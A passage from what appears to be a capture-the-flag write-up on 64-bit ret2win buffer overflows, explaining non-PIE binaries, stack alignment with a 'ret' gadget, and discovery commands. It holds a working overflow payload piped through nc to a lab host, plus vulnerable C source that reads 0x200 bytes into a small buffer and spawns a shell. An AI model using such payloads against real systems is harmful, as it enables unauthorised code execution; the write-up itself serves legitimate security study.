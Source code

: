 It only works if the binary has been compiled as a non-PIE (position independant executable) - meaning that when run, the addresses of its functions remain the same every time (in PIE the processes' base address is random, so you can't know where a function will be ahead of time). 

An additional quirk here is that this is a **64-bit binary**, becase of this something called stack alignment comes into play. This is (I believe?) an issue due to the offset for addresses being eight bytes in 64bit (compared to four in 32bit) but only six bytes being used (they decided using all eight would be silly given how much memory that would represent, not giving a care for all the hurt exploit developers over time). To fix stack alignment, you override the return address with the address of a 'ret' instruction in the binary, then follow with the target address you want to jump to. The ret instruction pops the following address into the instruction pointer, solving any stack alignment issues.

- to confirm 64 bit and non-PIE, I ran `checksec [binary name]` - you can also work out this information from `file [binary name]`.
- to find the target vuln address, I ran gdb on the binary then ran 'info functions', which listed the function addresses
- to find a ret instruction, I ran `objdump -d [binary name] | grep ret`

```bash
{ echo -e "AAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBCCCCCCCC\x1a\x10\x40\x00\x00\x00\x00\x00\xdd\x11\x40\x00\x00\x00\x00\x00"; cat; } | nc 10.10.88.29 9006
```

note here the offset is important, as I need to find the exact padding before I overwrite the return address. Here, `\x1a\x10\x40\x00\x00\x00\x00\x00` is the 'ret' instruction's address that I found, typed in reverse and padded to eight bytes with `\x00` (the address as presented by objdump or gdb would be `\x40101a`), with the win function's address being `\xdd\x11\x40\x00\x00\x00\x00\x00` (again padded, reversed).

## Task 7

First requiring pwntools. Code:

```c
int win(){
    system("/bin/sh\0");
}

void vuln(){
    char *buf[0x20];
    printf("I can give you a secret %llx\n", &vuln);
    puts("Where are we going? : ");
    read(0, buf, 0x200);
    puts("\nok, let's go!\n");
}

int main(){
    setup();
    banner();
    vuln();
}
```
